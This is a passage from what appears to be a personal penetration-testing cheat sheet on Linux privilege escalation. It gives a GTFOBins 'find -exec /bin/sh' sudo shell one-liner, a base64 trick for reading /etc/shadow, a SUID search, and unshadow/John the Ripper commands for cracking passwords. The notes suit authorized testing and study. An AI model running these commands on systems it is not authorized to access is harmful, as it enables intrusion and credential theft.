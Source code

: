 ## Get The Fuck Out Bins

[GTFOBins](https://gtfobins.github.io) - legitimate functions of Unix binaries to break out of restrictive shells, escalate or maintain elevated privileges, etc. 
Example of an awesome line that will grant sudo shell access:

``` bash
find . -exec /bin/sh \; -quit
```
{: .nolineno }

### Cat Alternative

Excellent way to `cat` a file if privilege does not allow use of cat; try `base64` in the following way:

``` bash
base64 /etc/shadow | base64 -d
```
{: .nolineno }

### Check for SUID/GUID

Use the command below to see what files have the SUID or GUID bit set:

``` bash
find / -type f -perm -04000 -ls 2>/dev/null
```
{: .nolineno }

Good practice is to compare the executables from the generated list with GTFOBins. Check for things like `base64` and `nano` when `cat` returns permission denied. 

### Unshadow

Use the `unshadow` tool with *John the Ripper* to crack passwords from the `/etc/shadow` file and the `/etc/passwd` file.

``` bash
unshadow passwd.txt shadow.txt > passwords.txt
```
{: .nolineno }

``` bash
john --wordlist=/usr/shares/wordlists/rockyou.txt passwords.txt
```
{: .nolineno }

> I have recently compared the performance of _John the Ripper_ with _Hashcat_ on my MBP. I cannot believe how damned fast _Hashcat_ is compared to _John_. Whenever I can, in future I shall always be using _Hashcat_ as a first choice. It blasted _John_ out of the water. In one test it cracked a BCrypt hash in seconds compared to _John_ taking what felt like a lifetime. If you're a fan of _John_ and have not really looked at _Hashcat_, I recommend you do.
{: .prompt-tip }

### Capabilities
